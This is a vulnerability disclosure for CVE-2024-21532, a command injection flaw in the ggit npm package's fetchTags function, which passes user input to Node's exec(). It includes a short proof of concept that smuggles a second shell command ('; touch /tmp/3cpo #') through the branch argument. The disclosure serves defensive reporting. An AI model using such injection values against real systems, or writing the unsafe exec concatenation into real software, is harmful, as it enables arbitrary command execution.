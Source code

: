 # CVE-2024-21532 Command Injection vulnerability in ggit

`ggit` describes itself as:

```
Local promise-returning git command wrappers
```

Resources: 
 * Project's GitHub source code: https://github.com/bahmutov/ggit
 * Project's npm package: https://www.npmjs.com/package/ggit

Article write-up on this vulnerability: https://nodejs-security.com/blog/flawed-git-promises-library-on-npm-leads-to-command-injection-vulnerability

## Background on exploitation

I'm reporting a Command Injection vulnerability in `ggit` npm package.

This vulnerability manifests with the library's `fetchTags(branch)` API,
which allows user input to specify the branch to be fetched and then concatenates
this string along with a git command which is then passed to the unsafe `exec()`
Node.js child process API.

## Exploit

1. Install `ggit@2.4.12` or earlier
2. Establish the following POC:

```js
const fetchTags = require("ggit").fetchTags;
fetchTags("; touch /tmp/3cpo #").then(function () {
  // should be same as running command
  // git pull origin --tags
  console.log("done");
});
```

3. Observe new file created on disk at `/tmp/3cpo`

# Author

Liran Tal
